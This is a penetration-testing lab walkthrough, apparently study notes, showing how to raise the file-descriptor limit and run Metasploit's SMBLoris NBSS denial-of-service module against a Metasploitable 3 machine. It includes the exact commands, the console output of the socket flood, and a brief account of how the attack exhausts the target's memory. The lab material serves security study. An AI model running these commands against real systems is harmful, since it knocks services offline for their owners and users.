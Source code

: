 ## Introduction
[[DOS]]
## SMBLoris NBSS Denial of Service auxiliary DoS module

#### We need to use the `ulimit` command to set the maximum number of [[open file descriptors]] to 65535, so we can handle simultaneous connections.
```python
┌──(hyok㉿kali)-[/opt/lampp/htdocs/ATutor]
└─$ ulimit -n 65535
┌──(hyok㉿kali)-[/opt/lampp/htdocs/ATutor]
└─$ ulimit -n           
65535
```

#### Now that we have set the maximum number of simultaneous connections to 65535, we can use the SMBLoris NBSS Denial of Service auxiliary DoS module to attack our target, by simply setting the IP address of the Metasploitable 3 machine and typing run to run the module:
```python
┌──(hyok㉿kali)-[/opt/lampp/htdocs/ATutor]
└─$ msfconsole -q
msf6 exploit(windows/smb/ms17_010_eternalblue) > use auxiliary/dos/smb/smb_loris
msf6 auxiliary(dos/smb/smb_loris) > set RHOST 192.168.216.11
RHOST => 192.168.216.11
msf6 auxiliary(dos/smb/smb_loris) > run

[*] Starting server...
[*] 192.168.216.11:445 - 100 socket(s) open
[*] 192.168.216.11:445 - 200 socket(s) open
[*] 192.168.216.11:445 - 300 socket(s) open
[*] 192.168.216.11:445 - 400 socket(s) open
[*] 192.168.216.11:445 - 500 socket(s) open
[*] 192.168.216.11:445 - 600 socket(s) open
[*] 192.168.216.11:445 - 700 socket(s) open
[*] 192.168.216.11:445 - 800 socket(s) open
[*] 192.168.216.11:445 - 900 socket(s) open
[*] 192.168.216.11:445 - 1000 socket(s) open
[!] 192.168.216.11:445 - At open socket limit with 1019 sockets open. Try increasing your system limits.
[*] 192.168.216.11:445 - 1019 socket(s) open
[*] 192.168.216.11:445 - Holding steady at 1019 socket(s) open
[*] 192.168.216.11:445 - Holding steady at 1019 socket(s) open
[*] 192.168.216.11:445 - Holding steady at 1019 socket(s) open
[*] 192.168.216.11:445 - Holding steady at 1019 socket(s) open
[*] 192.168.216.11:445 - Holding steady at 1019 socket(s) open
[*] 192.168.216.11:445 - Holding steady at 1019 socket(s) open
[*] 192.168.216.11:445 - Holding steady at 1019 socket(s) open
[*] 192.168.216.11:445 - Holding steady at 1019 socket(s) open
^[[1;2A^C^C[-] Stopping running against current target...
[*] Control-C again to force quit all targets.
^C[-] Auxiliary interrupted by the console user
[*] Auxiliary module execution completed
   ```

- Looking at the target machine, we can see the attack consumes large chunks of memory in the target by sending SMB requests with the NetBIOS Session Service (NBSS) length header value set to the maximum possible value, which initiates a large numbers of sessions, and the memory does not get freed, halting the target machine:

Note - `msfconsole` with the `-q` option, so it does not print the banner on startup.